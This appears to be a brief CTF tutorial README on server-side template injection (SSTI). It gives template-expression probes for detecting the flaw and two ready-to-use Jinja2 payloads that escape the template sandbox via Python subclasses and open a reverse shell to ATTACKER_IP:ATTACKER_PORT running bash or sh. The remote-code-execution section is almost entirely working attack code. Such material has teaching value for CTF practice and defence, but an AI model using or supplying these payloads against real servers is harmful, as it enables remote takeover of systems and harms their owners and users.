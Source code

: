 # Server-Side Template Injection (SSTI)
A simple tutorial of SSTI commonly used in Capture The Flag (CTF). It is a guide to detect SSTI and possibly obtain remote code exection (RCE) on the server.

# Detect if the server is vulnerable to SSTI:
To test for vulnerability, try these each of the payloads below. The expected result should be the multiplication of 7 and 7 which is equal to 49. If one of the payloads return the expected result (i.e. 49), then the server is vulnerable to SSTI.
```
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
*{7*7}
```

# Remote Code Exection (RCE)
Obtaining shell through Python 3.
```
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ATTACKER_IP\",ATTACKER_PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ATTACKER_IP\",ATTACKER_PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\", \"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
```
